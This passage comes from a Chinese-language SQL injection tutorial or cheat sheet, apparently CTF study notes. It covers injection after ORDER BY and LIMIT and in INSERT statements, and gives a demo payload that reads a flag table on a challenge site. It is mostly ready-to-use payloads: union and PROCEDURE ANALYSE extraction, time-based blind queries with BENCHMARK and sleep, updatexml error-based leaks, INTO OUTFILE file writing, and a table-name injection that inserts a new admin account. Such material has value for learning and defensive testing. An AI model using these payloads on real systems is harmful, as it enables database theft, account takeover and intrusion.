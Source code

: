 `(select * from person order by 1) union (select 1,2,3)`

**Demo**

https://chall.tasteless.eu/level1/index.php?dir=asc

payload: `?dir=,3)union(select%201,flag%20from%20level1_flag)%23`

#### 12.1.5 注入点在 LIMIT 后

LIMIT 后的注入判断比较简单，通过更改数字大小，页面会显示更多或者更少的记录数。由于语法限制，前面的字符注入方式不可行（LIMIT 后只能是数字），在整个 SQL 语句没有 ORDER BY 关键字的情况下，可以直接使用 UNION 注入。

另外，可根据 SELECT 语法，通过加入 PROCEDURE 来尝试注入，这类语句只适合 MySQL 5.6 前的版本，

`select id from wp_news limit 2 procedure analyse(extractvalue(1,concat(0x7e,version())),1)`

也可以进行时间盲注

`procedure analyse((select extractvalue(1,concat(0x3a,(if(mid(version(),1,1) LIKE 5, BENCHMARK(500000, SHA(1)), 1))))),1)`

也可以直接写文件 `into outfile`

### 12.2 INSERT 注入

通常，注入位于字段名或者字段值的地方，且没有回显信息

#### 12.2.1 注入点位于 table_name

如果能够通过注释符注释后续语句，则可直接插入特定数据到想要的表内，如管理员表。例如，对于如下 SQL 语句：

`$res = mysqli_query($conn, "INSERT INTO {$_GET['table']} VALUES(2,2,2,2)");`

开发者预想的是，控制 table 的值为 wp_news，从而插入新闻表数据。由于可以控制表名，可以访问 `?table=wp_user values(2，'newadmin'，'newpass')%23`，直接插入管理员。

#### 12.2.2 注入点位于 VALUES

##### 12.2.2.1 INSERT 延时

```sql
INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" and sleep(1))

INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" & sleep(1))

INSERT into wp_user_ (username,password,year) VALUES("test1","122","3" | sleep(1))
```

##### 12.2.2.2 INSERT 报错

```sql
INSERT into wp_user_ (username,password,year) VALUES("test1","122"or updatexml(1,concat(0x7e,DATABASE()),0),1)

INSERT into wp_user_ (username,password,year) VALUES("test1","122"and updatexml(1,concat(0x7e,DATABASE()),0),1)

INSERT into wp_user_ (username,password,year) VALUES("test1","122"&updatexml(1,concat(0x7e,DATABASE()),0),1)

INSERT into wp_user_ (username,password,year) VALUES("test1","122"|updatexml(1,concat(0x7e,DATABASE()),0),1)

INSERT into wp_user_ (username,password,year) VALUES("test1","122"+updatexml(1,concat(0x7e,DATABASE()),0),1)

```
